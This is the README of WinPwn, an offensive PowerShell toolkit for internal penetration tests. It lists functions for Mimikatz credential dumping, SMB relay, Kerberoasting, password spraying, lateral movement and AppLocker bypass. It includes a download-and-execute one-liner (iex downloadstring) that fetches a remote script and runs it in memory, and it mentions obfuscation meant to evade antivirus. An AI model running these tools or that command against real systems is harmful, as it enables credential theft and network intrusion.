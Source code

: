 # WinPwn
In many past internal penetration tests I often had problems with the existing Powershell Recon / Exploitation scripts due to missing proxy support. I often ran the same scripts one after the other to get information about the current system and/or the domain. To automate this process and for the proxy reason I wrote my own script with automatic proxy recognition and integration. 
The script is mostly based on well-known large other offensive security Powershell projects. They are loaded into RAM via IEX Downloadstring.

Yes it is not a C# and it may be flagged by antivirus solutions. Windows Defender for example blocks some of the known scripts/functions. Maybe someday a C# Version will follow.

Any suggestions, feedback and comments are welcome!

Just Import the Modules with:
`Import-Module .\WinPwn_v0.7.ps1` or 
`iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/WinPwn_v0.7.ps1')`

Functions available after Import:
1. #### `WinPwn` -> Guides the user through all functions/Modules with simple questions.
2. #### `Inveigh` -> Executes Inveigh in a new Console window , SMB-Relay attacks with Session management (Invoke-TheHash) integrated
3. #### `sessionGopher` -> Executes Sessiongopher Asking you for parameters
4. #### `Mimikatzlocal` -> Executes Invoke-WCMDump and Invoke-Mimikatz
5. #### `localreconmodules` -> Collects infosec relevant system Information, Executes passhunt, Get-Computerdetails and Just another Windows Privilege escalation script + Winspect
6. #### `JAWS` -> Just another Windows Privilege Escalation script
7. #### `domainreconmodules` -> 
  7. Powerview function output gets stored on disk for review. 
  7. A search for AD-Passwords in description fields is done. 
  7. Unconstrained delegation systems/users are enumerated. 
  7. SQL Server discovery and Auditing functions (default credentials, passwords in the database and more).
  7. MS-RPRN Check for Domaincontrollers
  7. An AD-Report is generated in CSV Files (or XLS if excel is installed) with ADRecon. 
8. #### `Privescmodules` -> Executes different privesc scripts in memory (PowerUp Allchecks, Sherlock, GPPPasswords)
9. #### `lazagnemodule` -> Downloads and executes lazagne.exe (if not detected by AV) 
10. #### `latmov` -> Searches for Systems with Admin-Access in the domain for lateral movement. Mass-Mimikatz can be used after for the found systems. DomainPassword-Spray for new Credentials can also be used here.
11. #### `empirelauncher` -> Launch powershell empire oneliner on remote Systems
12. #### `shareenumeration` -> Invoke-Filefinder and Invoke-Sharefinder (Powerview / Powersploit)
13. #### `groupsearch` -> Get-DomainGPOUserLocalGroupMapping - find Systems where you have Admin-access or RDP access to via Group Policy Mapping (Powerview / Powersploit)
14. #### `Kerberoasting` -> Executes Invoke-Kerberoast in a new window and stores the hashes for later cracking
15. #### `powerSQL` -> SQL Server discovery, Check access with current user, Audit for default credentials + UNCPath Injection Attacks
16. #### `Sharphound` -> Downloads Sharphound and collects Information for the Bloodhound DB
17. #### `adidnswildcard` -> Create a Active Directory-Integrated DNS Wildcard Record and run Inveigh for mass hash gathering.


The "oBEJHzXyARrq.exe"-Executable is an obfuscated Version of jaredhaights PSAttack Tool for Applocker/PS-Restriction Bypass (https://github.com/jaredhaight/PSAttack).

## TO-DO
- [x] Some obfuskation
- [ ] More obfuscation
- [ ] Proxy via PAC-File support
- [x] Get the scripts from my own creds repository (https://github.com/SecureThisShit/Creds) to be independent from changes in the original repositories
- [ ] More Recon/Exploitation functions
- [ ] msDS-AllowedToActOnBehalfOfOtherIdentity Ressource based constrained delegation

![alt text](https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/Pwn.png)

## CREDITS

- [X] [Kevin-Robertson](https://github.com/Kevin-Robertson/) - Inveigh, Powermad, Invoke-TheHash
- [X] [Arvanaghi](https://github.com/Arvanaghi/) - SessionGopher
- [X] [PowerShellMafia](https://github.com/PowerShellMafia/) - Powersploit
- [X] [Dionach](https://github.com/Dionach/) - PassHunt
- [X] [A-mIn3](https://github.com/A-mIn3/) - WINSpect
- [X] [411Hall](https://github.com/411Hall/) - JAWS
- [X] [sense-of-security](https://github.com/sense-of-security/) - ADrecon
- [X] [dafthack](https://github.com/dafthack/) - DomainPasswordSpray
- [X] [rasta-mouse](https://github.com/rasta-mouse/) - Sherlock
- [X] [AlessandroZ](https://github.com/AlessandroZ/) - LaZagne
- [X] [samratashok](https://github.com/samratashok/) - nishang
- [X] [leechristensen](https://github.com/leechristensen/) - Random Repo
- [X] [HarmJ0y](https://github.com/HarmJ0y) - Many good Blogposts, Gists and Scripts
- [X] [NETSPI](https://github.com/NetSPI/) - PowerUpSQL

## Legal disclaimer:
Usage of WinPwn for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.
